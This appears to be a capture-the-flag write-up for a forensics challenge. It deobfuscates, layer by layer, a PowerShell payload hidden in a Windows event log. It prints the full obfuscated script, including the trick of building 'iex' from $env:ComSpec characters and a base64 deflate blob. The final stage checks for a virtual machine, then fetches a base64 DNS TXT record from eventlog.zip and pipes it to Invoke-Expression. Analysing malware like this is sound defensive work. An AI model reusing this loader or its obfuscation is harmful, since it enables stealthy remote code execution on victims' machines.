

# texas_chain_saw_massacre
## instructions
Ugh! One of our users was trying to install a Texas Chainsaw Massacre video game, and installed malware instead. Our EDR detected a rogue process reading and writing events to the Application event log. Luckily, it killed the process and everything seems fine, but we don't know what it was doing in the event log.

The EVTX file is attached. Are you able to find anything malicious?

## solve
find the file installation in the log its at 18:02:47 with event id 1337. get the binary data and convert it to ascii/utf8 with the python script decode.py. It's a PowerShell script.  



1. remove last part "( $vERboSEpreFeRenCe.tOStrING()[1,3]+'x'-JOin'' )" and the bracket in front and back
   the last part equals iex (abbreviation for Invoke-Expression) it will execute everything

2. execute the rest as follows
```powershell 
  $out = ('. ( ZT6ENv:CoMSpEc[4,24,'+'25]-joinhx6hx6)( a6T ZT6( Set-variaBle hx6OfShx6 hx6hx6)a6T+ ( [StriNg'+'] [rEGeX]::mAtcheS( a6T ))421]RAhC[,hx6fKIhx6eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,hx6kwlhx6EcalPeRC-  )hx6)bhx6+hx60Yb0Yhx6+hx6niOj-]52,hx6+hx642,hx6+'+'hx64[cehx6+hx6phx6+hx6SMoC:Vnhx6+hx6ekwl ( hx6+hx6. fKI ) (DnEOTDAhx6+hx6ehx6+hx6r.)} ) hx6+'+'hx6iicsA:hx6+hx6:]GnidOcNhx6+hx6e.hx6+hx6Thx6+hx6xethx6+hx6.hx6+hx6METsys[hx6+hx6 ,_kwhx6+h'+'x6l (REDhx6+hx6AeRmaertS.o'+'Ihx6+hx6 thx6+hx6Chx6'+'+hx6ejbO-Wh'+'x6+hx6En { HCaERoFhx6+hx6fKI) sSERpM'+'oCehx6+hx'+'6dhx6+hx6::hx6+hx6]'+'edOMhx6+hx6'+'nOisSErPMochx6+hx6.NoISSerhx6+hx6pMOc.oi[, ) b'+'0Yhx6+hx6==wDyD4p+S'+'s/l/hx6+hx6i+5GtatJKyfNjOhx6+'+'hx63hx6+hx63hx6+hx64Vhx6+hx6vj6wRyRXe1xy1pB0hx6+hx6AXVLMgOwYhx6+hx6//hx6+hx6Womhx6+hx6z'+'zUhx6+hx6tBhx6+hx6sx/ie0rVZ7hx6+hx6xcLiowWMGEVjk7JMfxVmuszhx6+hx6OT3XkKu9TvOsrhx6+hx6bbhx6+hx6cbhx6+hx6GyZ6c/gYhx6+hx6Npilhx6+hx6BK7x5hx6+hx6Plchx6+hx68qUyOhBYhx6+hx6VecjNLW42YjM8SwtAhx6+hx6aR8Ihx6+hx6Ohx6+hx6whx6+hx6mhx6+hx66hx6+hx6UwWNmWzCw'+'hx6+hx6VrShx6+hx6r7Ihx6+hx6T2hx6+hx6k6Mj1Muhx6+hx6Khx6+hx6T'+'/oRhx6+hx6O5BKK8R3NhDhx6+hx6om2Ahx6+hx6GYphx6+hx6yahx6+hx6TaNg8DAneNoeSjhx6+h'+'x6ugkTBFTcCPaSH0QjpFywhx6+'+'hx6aQyhx'+'6+hx6HtPUG'+'hx'+'6+hx6DL0BK3hx6+h'+'x6lClrHAvhx6+h'+'x64GOpVKhx6+hx6UNhx6+hx6mGzIDeraEvlpc'+'kC9EGhx6+hx6gIaf96jSmShx6'+'+hx6Mhhx6+hx6hhx6+hx6RfI72hx6+hx6oHzUkDsZoT5hx6+hx6nhx6+hx6c7MD8W31Xq'+'Khx6+hx6d4dbthx6+hx6bth1RdSigEaEhx6+hx6JNERMLUxV'+'hx6+hx6ME4PJtUhx6+hx6tSIJUZfZhx6+hx6EEhx6+hx6Ahx6+hx6JsTdDZNbhx6+hx60Y(gniRTS4hx6+hx66esh'+'x6+hx6aBmoRF::]tRevnOhx6+hx6C[]MAertsYrOmeM.Oi.mETSYs[ (MaErhx6+hx6thx6+hx6sEtALfeD.NOhx6+hx6IsS'+'erPmo'+'c.OI.mehx6+hx6TsYShx6'+'+hx6 hx6+hx6 tCejbO-WEhx6+hx6n ( hx6(((no'+'IsseRpX'+'e-ekovni a6T,hx6.hx6,hx6RightToLEFthx6 ) RYcforEach{ZT6_ })+a6T ZT6( sV hx6oFshx6 hx6 hx6)a6T ) ')  -cREpLACE ([cHAr]90+[cHAr]84+[cHAr]54),[cHAr]36 -rEPlAce'a6T',[cHAr]34  -rEPlAce  'RYc',[cHAr]124 -cREpLACE  ([cHAr]104+[cHAr]120+[cHAr]54),[cHAr]39
  Write-Host $out
```

3. now the beginning ( $ENv:CoMSpEc[4,24,25]-join'') equals iex
```powershell 
$out = ( $ENv:CoMSpEc[4,24,25]-join'')
Write-Host $out
```

4. remove it and execute the code as follows:
```powershell
$out = ( " $( Set-variaBle 'OfS' '')"+ ( [StriNg] [rEGeX]::mAtcheS( " ))421]RAhC[,'fKI'eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,'kwl'EcalPeRC-  )')b'+'0Yb0Y'+'niOj-]52,'+'42,'+'4[ce'+'p'+'SMoC:Vn'+'ekwl ( '+'. fKI ) (DnEOTDA'+'e'+'r.)} ) '+'iicsA:'+':]GnidOcN'+'e.'+'T'+'xet'+'.'+'METsys['+' ,_kw'+'l (RED'+'AeRmaertS.oI'+' t'+'C'+'ejbO-W'+'En { HCaERoF'+'fKI) sSERpMoCe'+'d'+'::'+']edOM'+'nOisSErPMoc'+'.NoISSer'+'pMOc.oi[, ) b0Y'+'==wDyD4p+Ss/l/'+'i+5GtatJKyfNjO'+'3'+'3'+'4V'+'vj6wRyRXe1xy1pB0'+'AXVLMgOwY'+'//'+'Wom'+'zzU'+'tB'+'sx/ie0rVZ7'+'xcLiowWMGEVjk7JMfxVmusz'+'OT3XkKu9TvOsr'+'bb'+'cb'+'GyZ6c/gY'+'Npil'+'BK7x5'+'Plc'+'8qUyOhBY'+'VecjNLW42YjM8SwtA'+'aR8I'+'O'+'w'+'m'+'6'+'UwWNmWzCw'+'VrS'+'r7I'+'T2'+'k6Mj1Mu'+'K'+'T/oR'+'O5BKK8R3NhD'+'om2A'+'GYp'+'ya'+'TaNg8DAneNoeSj'+'ugkTBFTcCPaSH0QjpFyw'+'aQy'+'HtPUG'+'DL0BK3'+'lClrHAv'+'4GOpVK'+'UN'+'mGzIDeraEvlpckC9EG'+'gIaf96jSmS'+'Mh'+'h'+'RfI72'+'oHzUkDsZoT5'+'n'+'c7MD8W31XqK'+'d4dbt'+'bth1RdSigEaE'+'JNERMLUxV'+'ME4PJtU'+'tSIJUZfZ'+'EE'+'A'+'JsTdDZNb'+'0Y(gniRTS4'+'6es'+'aBmoRF::]tRevnO'+'C[]MAertsYrOmeM.Oi.mETSYs[ (MaEr'+'t'+'sEtALfeD.NO'+'IsSerPmoc.OI.me'+'TsYS'+' '+' tCejbO-WE'+'n ( '(((noIsseRpXe-ekovni ",'.','RightToLEFt' ) |forEach{$_ })+" $( sV 'oFs' ' ')" )
Write-Host $out
```

5. remove the Invoke-Expression() statement and run it again as follows:
```powershell
$out = ((' ( n'+'EW-ObjeCt '+' '+'SYsT'+'em.IO.comPreSsI'+'ON.DefLAtEs'+'t'+'rEaM( [sYSTEm.iO.MemOrYstreAM][C'+'OnveRt]::FRomBa'+'se6'+'4STRing(Y0'+'bNZDdTsJ'+'A'+'EE'+'ZfZUJISt'+'UtJP4EM'+'VxULMRENJ'+'EaEgiSdR1htb'+'tbd4d'+'KqX13W8DM7c'+'n'+'5ToZsDkUzHo'+'27IfR'+'h'+'hM'+'SmSj69faIg'+'GE9CkcplvEareDIzGm'+'NU'+'KVpOG4'+'vAHrlCl'+'3KB0LD'+'GUPtH'+'yQa'+'wyFpjQ0HSaPCcTFBTkgu'+'jSeoNenAD8gNaT'+'ay'+'pYG'+'A2mo'+'DhN3R8KKB5O'+'Ro/T'+'K'+'uM1jM6k'+'2T'+'I7r'+'SrV'+'wCzWmNWwU'+'6'+'m'+'w'+'O'+'I8Ra'+'AtwS8MjY24WLNjceV'+'YBhOyUq8'+'clP'+'5x7KB'+'lipN'+'Yg/c6ZyG'+'bc'+'bb'+'rsOvT9uKkX3TO'+'zsumVxfMJ7kjVEGMWwoiLcx'+'7ZVr0ei/xs'+'Bt'+'Uzz'+'moW'+'//'+'YwOgMLVXA'+'0Bp1yx1eXRyRw6jv'+'V4'+'3'+'3'+'OjNfyKJtatG5+i'+'/l/sS+p4DyDw=='+'Y0b ) ,[io.cOMp'+'reSSIoN.'+'coMPrESsiOn'+'MOde]'+'::'+'d'+'eCoMpRESs )IKf'+'FoREaCH { nE'+'W-Obje'+'C'+'t '+'Io.StreamReA'+'DER( l'+'wk_, '+'[sysTEM'+'.'+'tex'+'T'+'.e'+'NcOdinG]:'+':Ascii'+' ) }).r'+'e'+'ADTOEnD( ) IKf .'+' ( lwke'+'nV:CoMS'+'p'+'ec[4'+',24'+',25]-jOin'+'Y0bY0'+'b)')  -CRePlacE'lwk',[ChAR]36  -CRePlacE ([ChAR]89+[ChAR]48+[ChAR]98),[ChAR]39  -RePLACe'IKf',[ChAR]124)
Write-Host = $out
```

6. now ( $enV:CoMSpec[4,24,25]-jOin'') is iex
```powershell
$out = ( $enV:CoMSpec[4,24,25]-jOin'')
Write-Host $out
```

7. remove it and execute the code as follows:
```powershell
$out =  ( nEW-ObjeCt  SYsTem.IO.comPreSsION.DefLAtEstrEaM( [sYSTEm.iO.MemOrYstreAM][COnveRt]::FRomBase64STRing('NZDdTsJAEEZfZUJIStUtJP4EMVxULMRENJEaEgiSdR1htbtbd4dKqX13W8DM7cn5ToZsDkUzHo27IfRhhMSmSj69faIgGE9CkcplvEareDIzGmNUKVpOG4vAHrlCl3KB0LDGUPtHyQawyFpjQ0HSaPCcTFBTkgujSeoNenAD8gNaTaypYGA2moDhN3R8KKB5ORo/TKuM1jM6k2TI7rSrVwCzWmNWwU6mwOI8RaAtwS8MjY24WLNjceVYBhOyUq8clP5x7KBlipNYg/c6ZyGbcbbrsOvT9uKkX3TOzsumVxfMJ7kjVEGMWwoiLcx7ZVr0ei/xsBtUzzmoW//YwOgMLVXA0Bp1yx1eXRyRw6jvV433OjNfyKJtatG5+i/l/sS+p4DyDw==' ) ,[io.cOMpreSSIoN.coMPrESsiOnMOde]::deCoMpRESs )|FoREaCH { nEW-ObjeCt Io.StreamReADER( $_, [sysTEM.texT.eNcOdinG]::Ascii ) }).reADTOEnD( )
Write-Host = $out
```

8. now the code looks much more readable:
```powershell
= try {
    $TGM8A = Get-WmiObject MSAcpi_ThermalZoneTemperature -Namespace "root/wmi" -ErrorAction 'silentlycontinue' ; 
    if ($error.Count -eq 0) { 
        $5GMLW = (Resolve-DnsName eventlog.zip -Type txt | ForEach-Object { $_.Strings }); 
        if ($5GMLW -match '^[-A-Za-z0-9+/]*={0,3}$') { 
            [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($5GMLW)) | Invoke-Expression 
        } 
    } 
} 
catch { }
```

9. now simply make a dns request to retrieve the TXT data of the dnsrecord for eventlog.zip
```
dig eventlog.zip
``` 

